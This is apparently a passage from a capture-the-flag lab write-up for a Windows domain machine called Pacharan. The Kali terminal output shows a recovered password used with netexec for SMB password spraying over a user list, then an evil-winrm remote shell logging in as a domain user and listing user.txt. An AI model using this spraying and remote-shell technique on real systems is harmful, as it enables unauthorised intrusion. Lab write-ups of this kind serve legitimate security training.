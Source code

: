 
clave:TurkisArrusPuchuchuSiu1

===========================================================================================================================================================================
┌──(kali㉿kali)-[~/Documents/pacharan]
└─$ netexec smb 192.168.69.69 -u usuarios.txt -p 'TurkisArrusPuchuchuSiu1' --continue-on-success | grep "+"
SMB                      192.168.69.69   445    WIN-VRU3GG3DPLJ  [+] PACHARAN.THL\Chivas Regal:TurkisArrusPuchuchuSiu1 
                                                                                                                                      
┌──(kali㉿kali)-[~/Documents/pacharan]
└─$ netexec smb 192.168.69.69 -u 'Regal' -p 'TurkisArrusPuchuchuSiu1'                     
SMB         192.168.69.69   445    WIN-VRU3GG3DPLJ  [*] Windows 10 / Server 2016 Build 14393 x64 (name:WIN-VRU3GG3DPLJ) (domain:PACHARAN.THL) (signing:True) (SMBv1:False)
SMB         192.168.69.69   445    WIN-VRU3GG3DPLJ  [+] PACHARAN.THL\Regal:TurkisArrusPuchuchuSiu1 (Guest)


===========================================================================================================================================================================


┌──(kali㉿kali)-[~/Documents/pacharan]
└─$ evil-winrm -i 192.168.69.69 -u 'Regal' -p 'TurkisArrusPuchuchuSiu1'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
                                        
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
                                        
Error: Exiting with code 1
                                                                              



*Evil-WinRM* PS C:\Users\Chivas Regal\Desktop> whoami
pacharan\chivas regal


===========================================================================================================================================================================

*Evil-WinRM* PS C:\Users\Chivas Regal> cd Desktop
*Evil-WinRM* PS C:\Users\Chivas Regal\Desktop> ls


    Directorio: C:\Users\Chivas Regal\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         8/1/2024  10:29 AM             36 user.txt
